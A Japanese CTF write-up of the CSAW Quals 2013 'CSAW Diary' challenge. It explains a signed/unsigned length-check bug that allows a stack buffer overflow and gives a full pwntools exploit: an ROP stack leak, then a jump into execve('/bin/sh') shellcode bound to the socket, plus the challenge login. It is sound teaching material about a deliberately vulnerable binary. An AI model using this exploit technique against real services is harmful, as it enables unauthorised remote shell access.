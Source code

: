 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/22/csaw-quals-2013-csawdiary/
date: 2016-01-22T04:57:41+09:00
tags: [ "ctf", "writeup", "csaw-ctf", "arithmetic-overflow", "buffer-overflow", "shellcode", "return-oriented-programming" ]
---
```


# CSAW Quals CTF 2013: CSAW Diary

かなりの時間はかかったが大半は自力で解いた。

## [CSAW Diary](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/csawdiary-300)

>   nc 128.238.66.217 34266  
>   [fil_chal]()

与えられるバイナリは`34266`番portを開くサーバ。
接続するとloginを要求されるが、これはバイナリ中に平文で置いてあるのでそれを渡す。
すると`Entry Info: `と入力を促される。まず入力長となる整数を入力し、内容の文字列を入力する。
単純なbuffer overflowはない。

``` sh
$ nc localhost 34266
     *************    $$$$$$$$$        AAAAAAA  *****                   *****
    *   *******  *    $ $$   $$        A     A   *   *                 *   * 
    *  *       ***     $ $   $$       A  A A  A   *   *               *   *  
    *  *                $ $          A  A___A  A   *   *             *   *   
    *  *                 $ $        A           A   *   *    ****   *   *
    *  *                  $ $      A     AAA     A   *   *   *  *  *   *
    *  *       ***         $ $     A    A   A    A    *   ***   ***   *
    *  ********  *   $$$$$$   $    A    A   A    A     *             * 
     *************   $$$$$$$$$$    AAAAAA   AAAAAA      ************* 
                Dairy

UserName: csaw2013
Password: S1mplePWD
Welcome!
http://youtu.be/KmtzQCSh6xk

Entry Info: 30
foo
Til next time
```

nx bitはない。

``` sh
$ checksec --file fil_chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   fil_chal
```

脆弱性となるのは入力長の整数とその`signed`と`unsigned`を混同した比較である。
内部で`(unsigned)(n+1) <= 0x400`と比較されるので、ここに`-1`を渡すと`0 < 0x400`となりチェックを通過できる。このため`0xffffffff`文字まで書き込めることになり、stack上のbuffer overflowが可能となる。
あとは、stackのアドレスは再接続により変わらないため、簡単なropによりstackを読み出し、これから得られたアドレスを元にstack上のshellcodeにreturnすればよい。

本来のbufferの範囲にはasciiの範囲の文字しか入力できないようチェックがあるが、これは攻撃には影響しない。
アドレスの読み出しは不安定なのでsledと手での調整で適当にする。

ところでyoutubeへのurlは何だったのだろうか。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import time

context.log_level = 'debug'

##
## leak esp
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# buf + 0x420 - 8 ebx
# buf + 0x420 - 4 edi
# buf + 0x420     ebp
# buf + 0x420 + 4 ret
# buf + 0x420 + 4 + 0x1c ebp

call_send = 0x08048d04
pop0_ret = 0x0804868f # rp -r 0 -f fil_chal --unique

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(pop0_ret) * 5
payload += p32(call_send) # send(4, ebp, -1, 0)
payload += p32(4) # socket fd
p.sendline(payload)
s = p.recvall()

# find a stack-like addr
for i in range(len(s)-4):
    if s[i+3] == '\xff' and '\0' not in s[i:i+4]:
        stk = u32(s[i:i+4])
        break
stk -= 0x100 # magic offset, hand tweaked
log.success('got stack addr: ' + hex(stk))

##
## attack
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# metasploit
# >   $ msfconsole
# >   msf payload(shell_bind_tcp) > use payload/linux/x86/exec
# >   msf payload(exec) > generate -o CMD='/bin/sh 0<&4 1>&4'
shellcode = \
    "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" + \
    "\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x12\x00\x00" + \
    "\x00\x2f\x62\x69\x6e\x2f\x73\x68\x20\x30\x3c\x26\x34\x20" + \
    "\x31\x3e\x26\x34\x00\x57\x53\x89\xe1\xcd\x80"

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(stk)
payload += '\x90' * 0x100 # nop sled, if you make it longer, sigsegv will happen
payload += shellcode
p.sendline(payload)

time.sleep(0.1)
p.sendline('ls')
p.interactive()
```
